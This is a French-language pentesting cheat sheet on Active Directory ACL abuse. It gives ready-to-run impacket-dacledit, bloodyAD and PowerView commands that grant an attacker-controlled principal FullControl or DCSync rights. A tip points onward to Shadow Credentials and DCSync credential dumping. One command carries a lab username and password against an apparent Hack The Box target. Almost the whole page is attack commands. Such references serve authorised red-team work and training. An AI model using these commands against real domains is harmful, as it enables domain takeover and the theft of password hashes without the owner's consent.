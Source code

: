 

> [!Prérequis]
> L'utilisateur doit être propriétaire de l'objet

> [!TIP]
> Une fois les droits octroyés, GO #ShadowCredentials + #UnPACTheHash ou #DCSync

- Droits FullControl
- Droits DCSync

# FullControl

## LINUX
### *Impacket*

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb/ryan:WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51
```

Inheritence sur une OU

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=Users,DC=domain,DC=local' -inheritance "$DOMAIN"/"$USER":"$PASSWORD"
```

### *BloodyAD*

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll "$TargetObject" "$ControlledPrincipal"
```


## WINDOWS

### PowerView

```powershell
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
```


---

# DCSync

## LINUX

### *Impacket*

```bash
impacket-dacledit -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```


### *BloodyAD*

```
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
```


## WINDOWS

### PowerView

```powershell
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
```